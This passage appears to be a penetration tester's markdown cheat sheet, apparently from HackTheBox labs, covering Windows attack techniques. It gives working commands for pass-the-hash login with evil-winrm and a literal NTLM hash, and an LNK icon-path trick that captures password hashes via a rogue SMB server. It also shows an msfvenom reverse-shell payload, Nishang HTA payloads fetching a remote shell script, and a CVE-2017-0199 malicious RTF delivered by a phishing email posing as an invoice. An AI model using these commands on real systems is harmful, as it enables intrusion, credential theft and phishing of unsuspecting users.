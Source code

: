 	OR (PTH)

	evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

- Useful commands in winRM

		gci = ls = dir

		gci -recurse . | select fullname (list all the file recursively)

		gc file.txt (same as type or cat)

## Exploit Icon path to get the foothold
Not too commonly known, you can change the icon-path in a LNK-file and point it to a SMB-server capturing the users password-hash. The beauty with this trick, is that the user don't even has to click the lnk. Opening a window displaying contents of a folder containing such a file, is enough.

- First we create our lnk, using this excellent tool. http://www.mamachine.org/mslink/index.en.html

		./mslink -l notimportant -n shortcut -i \\\\192.168.16.53\\test -o shortcut.lnk

- Start responder and wait to get a hash

## RTF FILE EXPLOIT (CVE-2017-0199)
https://github.com/bhdresh/CVE-2017-0199
https://nvd.nist.gov/vuln/detail/CVE-2017-0199
https://0xdf.gitlab.io/2018/11/10/htb-reel.html

- Generate a payload in hta format

		msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=2222 -f exe -o ghost.exe

OR

- Nishang (check **ippsec video (reel)**)
	- Go inside nishang folder and look for hta
	- Grab the Out-HTA.ps1 file
	- Create a powershell session inside the linux terminal -> pwsh
	- Use the Out-HTA.ps1 file to generate a payload
	    - . .\Out-HTA.ps1
	    - Out-HTA -PayloadURL http://192.168.254.1/shell.ps1
- Then we need to create the shell.ps1 file
- Just copy the reverse tcp shell.ps1 inside the nishang folder and modify it to point to our server

- Generate an rtf file with the tool from github (cve-2017-0199.py)

		python CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.6/file.hta -t rtf

- Upload the malicious rtf file via email for example

		sendemail -f ghost@htb.local -t nico@megabank.com -u "Invoice" -m "Uou are" -a ghost.rtf -s 10.10.10.77 -v

## IOT DEVICES - WINDOWS IoT CORE 
https://github.com/SafeBreach-Labs/SirepRAT
https://www.bleepingcomputer.com/news/security/windows-10-iot-core-test-interface-lets-attackers-take-over-devices/
